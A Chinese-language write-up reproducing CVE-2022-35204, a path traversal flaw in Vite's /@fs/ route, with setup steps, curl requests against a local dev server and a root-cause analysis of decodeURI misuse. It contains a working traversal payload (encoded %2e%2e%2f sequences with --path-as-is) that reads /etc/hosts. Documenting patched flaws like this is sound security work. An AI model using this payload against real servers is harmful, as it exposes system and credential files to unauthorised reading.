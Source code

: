 ```yaml
---
title: CVE-2022-35204
---
```


# CVE-2022-35204


<Metadata author="swwind" time="2023-6-12" />

Vite 是 Vite 开源的一种新型的前端构建工具。

Vite v2.9.13 之前版本存在安全漏洞，该漏洞源于允许攻击者通过精心设计的 URL 对受害者的服务执行目录遍历。

## 漏洞详情信息表

|  漏洞名称  |   Vite 路径遍历漏洞    |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202208-3372    |
|  CVE 编号  | [CVE-2022-35204][nist] |
|    厂商    |          Vite          |
|  危害等级  |          低危          |
|  漏洞类型  |        路径遍历        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vite v2.9.12

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2022-35204` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vite@2.9.12` 安装带有缺陷的 vite 版本。

## 漏洞测试或验证详细步骤

### 编写代码

创建 `index.html`，简单写入任意 HTML 页面，如下样例。

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vite</title>
  </head>
  <body>
    There is nothing to observe
  </body>
</html>
```

### 运行程序

使用 `yarn vite dev` 开启 vite 开发模式服务器，可以看到程序默认监听了 `localhost:3000` 地址端口。

![](/assets/exploits/figure2/fig1.png)

访问 `http://localhost:3000` 可以看到我们在 `index.html` 中编写的内容。

![](/assets/exploits/figure2/fig2.png)

### 验证漏洞

vite 默认启用的 `/@fs/` 路由用于访问任意本地文件，但是只限于项目仓库目录下的文件。

例如我们构造一个请求 URL 形如 `http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html`，这个 URL 指向的是我们方才创建的 `index.html`，并且在项目的目录下，因此可以正常访问。我们使用 curl 测试这个路径的访问情况。

```bash
curl http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html
```

程序输出如下

![](/assets/exploits/figure2/fig3.png)

我们尝试访问一个不在项目路径下的文件，例如 `/etc/hosts` 文件，可以看到 vite 拒绝了我们的请求。

```bash
curl http://localhost:3000/@fs/etc/hosts
```

![](/assets/exploits/figure2/fig4.png)

漏洞的关键在于，我们可以使用 `%2e%2e%2f`（经过 `encodeURIComponent` 之后的 `../`）来索引到父级目录，从而绕过 vite 的路径验证。

值得注意的是使用 curl 必须要带上 `--path-as-is` 参数，防止 curl 自己展开 `../`。

```curl
curl --path-as-is http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts
```

![](/assets/exploits/figure2/fig5.png)

可以看到成功绕过了 vite 的路径检测，成功访问到了系统中的任意文件。

### 漏洞分析

漏洞出现的原因在于 vite 错误地使用了 `decodeURI` 函数来对输入的参数进行反序列化。

![](/assets/exploits/figure2/fig6.png)

`decodeURI` 函数在解码时会将大部分 ASCII 标点符号和预留字符保留不变，包括 `/`（斜杠）和 `%2f`（斜杠的编码形式）。

相比之下，`decodeURIComponent` 函数仅解码 URI 组件中的字符，而不是完整的 URI。它可以正确解码任何 ASCII 字符或 UTF-8 字符集，包括默认 URI 编码中使用的所有预留字符和其他特殊字符。因此，在处理普通的、标准的或非标准的 URI 时，`decodeURIComponent` 函数通常是更安全和可靠的选择。

在这个漏洞的情形下，当传入的参数是 `/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts` 的时候，`decodeURI` 函数解析出来的结果会保留其中的所有 `%2f`，再经由下一步的 `path.resolve` 函数解析，最终结果是 `/home/swwind/tmp/cve/CVE-2022-35204/..%2f..%2f..%2f..%2f../etc/hosts`，由此非常轻松地就绕过了 vite 的允许目录检查。

相比之下，如果使用了安全的 `decodeURIComponent` 函数，那么第一步解析出来的结果就会是 `/home/swwind/tmp/cve/CVE-2022-35204/../../../../../etc/hosts`，经过第二步 `path.resolve` 解析之后的结果将会是 `/etc/hosts`，从而有效防止此类攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2022-35204
